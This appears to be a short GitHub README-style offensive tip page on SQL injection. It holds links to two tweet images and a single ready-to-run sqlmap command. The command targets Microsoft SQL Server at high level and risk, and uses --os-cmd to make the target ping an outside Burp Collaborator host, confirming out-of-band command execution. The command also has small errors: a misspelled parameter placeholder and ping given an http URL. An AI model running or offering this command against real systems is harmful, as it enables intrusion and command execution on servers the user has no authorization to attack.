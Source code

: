 <h1 align="center">SQLI --> SQL Injection</h1>

<a href="https://twitter.com/hackersden_/status/1465229358545526787"><img width="550" height="600px" align="left" src="https://user-images.githubusercontent.com/79082257/143884335-9adfa71d-7b23-49b7-9afb-996e800d1c68.png"/></a>

Run

```bash
  sqlmap -r request.txt --force-ssl -p pramater --level 5 --risk 2 -dbms="Microsoft SQL Server" --os-cmd="ping http://your.burpcollaborator.net"
```

<h1 align="left">-------------------------------------------------</h1>

<a href="https://twitter.com/GodfatherOrwa/status/1439247081655447566"><img width="550" height="700px" align="left" src="https://user-images.githubusercontent.com/79082257/143886364-f03183e1-5922-4b79-9002-a04bfa55c56a.png"/></a>

